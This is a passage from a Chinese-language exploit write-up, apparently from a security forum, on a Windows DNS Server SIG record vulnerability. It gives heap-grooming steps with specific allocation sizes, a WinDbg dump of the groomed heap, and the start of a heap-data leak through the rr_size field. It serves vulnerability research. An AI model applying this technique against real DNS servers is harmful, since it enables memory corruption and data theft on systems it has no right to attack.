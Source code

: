 为了避免漏洞触发时引发崩溃，可以多次请求服务器使其分配很多 RR 对象（保证这些对象在漏洞利用时不会被释放）。然后释放中间的一个对象，使得触发漏洞时，RRSIG 对象可以申请到之前释放的块。

 

1、分配大量 0x1000F 块（加上 0x10 字节的 _Heap_Entry 实际上是 0x10020），然后释放中间的一个 0x1000F 块  
2、分配大小为 0xF05F 的块，从而分割出 0xFB0 大小的剩余可用空间  
3、接下来再请求大量 0xA0 块就可以使目标 RR 缓冲区分配到这个 0xFB0 大小的块（_Heap_Entry 0x10 + 0xFA0）

 

这样可保证向重占位的 0xFB0 大小的块中的某个释放后的对象处复制超过 0xFFFF 大小的数据也不会触发崩溃。

 

![](https://bbs.pediy.com/upload/attach/202101/701197_4VG2V55ZKV2E2DY.png)

 

某次测试时的布局如下，我们可以释放 sp_115 所在堆，然后利用漏洞申请相同大小的堆，并覆盖后面的数据。

```
0:019> db 17ef599f300 lfa0
0000017e`f599f300  00 00 00 00 00 00 00 00-42 71 5e fc f9 36 db 10  ........Bq^..6..
0000017e`f599f310  70 b7 65 e7 bb 22 a3 00-ef 0c 0c 0c 0c 0c 0c fe  p.e.."..........
0000017e`f599f320  00 00 00 00 00 00 00 00-61 80 10 00 18 00 57 00  ........a.....W.
0000017e`f599f330  57 02 00 00 57 02 00 00-00 00 00 00 01 00 00 00  W...W...........
0000017e`f599f340  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f350  00 00 00 00 00 00 00 00-00 01 05 00 00 00 00 00  ................
0000017e`f599f360  00 00 00 00 00 00 00 00-00 00 16 03 06 73 70 5f  .............sp_
0000017e`f599f370  31 31 35 09 79 79 79 79-79 79 79 79 74 03 66 75  115.yyyyyyyyt.fu
0000017e`f599f380  6e 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  n...............
0000017e`f599f390  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f3a0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f3b0  00 00 00 00 bb 22 a3 00-ef 0c 0c 0c 0c 0c 0c fe  ....."..........
0000017e`f599f3c0  00 00 00 00 00 00 00 00-61 80 00 00 18 00 57 00  ........a.....W.
0000017e`f599f3d0  57 02 00 00 c7 19 00 00-00 00 00 00 01 00 00 00  W...............
0000017e`f599f3e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f3f0  00 00 00 00 00 00 00 00-00 01 05 00 00 00 00 00  ................
0000017e`f599f400  00 00 00 00 00 00 00 00-00 00 16 03 06 73 70 5f  .............sp_
0000017e`f599f410  31 31 36 09 79 79 79 79-79 79 79 79 74 03 66 75  116.yyyyyyyyt.fu
0000017e`f599f420  6e 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  n...............
0000017e`f599f430  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f440  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f450  00 00 00 00 bb 22 a3 00-ef 0c 0c 0c 0c 0c 0c fe  ....."..........
0000017e`f599f460  00 00 00 00 00 00 00 00-61 80 00 00 18 00 57 00  ........a.....W.
0000017e`f599f470  57 02 00 00 c7 19 00 00-00 00 00 00 01 00 00 00  W...............
0000017e`f599f480  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f490  00 00 00 00 00 00 00 00-00 01 05 00 00 00 00 00  ................
......

```

##### 数据泄露

通过设置 RR 对象中的 rr_size 可泄露后面对象的堆数据。当客户端发起 SIG 请求时，DNS Server 会从缓存中读取数据。如下，在 SigWireWrite 函数中，rr_size 可控制读取数据的长度，但要需要保证 rr_size - nameSigner - 0x14 的大小不超过 v4 - v9（Wire_TestForBytesRemaining 函数控制）。

 